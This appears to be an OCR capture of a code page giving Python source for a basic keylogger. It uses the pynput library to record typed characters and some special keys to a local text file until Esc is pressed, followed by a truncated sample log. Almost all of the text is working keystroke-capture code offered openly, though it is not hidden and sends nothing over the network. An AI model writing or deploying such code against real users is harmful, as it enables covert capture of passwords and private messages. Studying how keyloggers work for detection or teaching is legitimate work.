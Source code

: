 ```python
from pynput.keyboard import Listener, Key

# File where keystrokes will be logged
log_file = "Basic_key_log.txt"

# Function to handle key press events
def on_press(key):
    try:
        # Initialize the character to log
        letter = None
        # Handle printable keys
        if hasattr(key, 'char') and key.char is not None:
            letter = key.char
        # Handle special keys
        else:
            if key == Key.space:
                letter = "[Space]"
            elif key == Key.enter:
                letter = "[Enter]"
            elif key == Key.backspace:
                letter = "[Backspace]"
            elif key == Key.tab:
                letter = "[Tab]"
            elif key == Key.esc:
                letter = "[Esc]"
                print("Stopping... the keyboard listener.")
                return False  # Stop the listener
            else:
                return  # Skip other special keys (e.g., Shift, Ctrl)

        # Write the character to the log file
        with open(log_file, "a") as f:
            f.write(f"{letter}\n")

    except Exception as e:
        print(f"Error: {e}")

# Start listening for key presses
try:
    with Listener(on_press=on_press) as listener:
        print("Starting keyboard listener. Press Esc to stop.")
        listener.join()
except Exception as e:
    print(f"Failed to start listener: {e}")
Example Output in Basic_key_log.txt (typing "This is the out put of basic keylogger" followed by Esc):

text

Copy
T
h
i
s
[Space]
i
s
[Space]
t
h
e
[Space]
o
```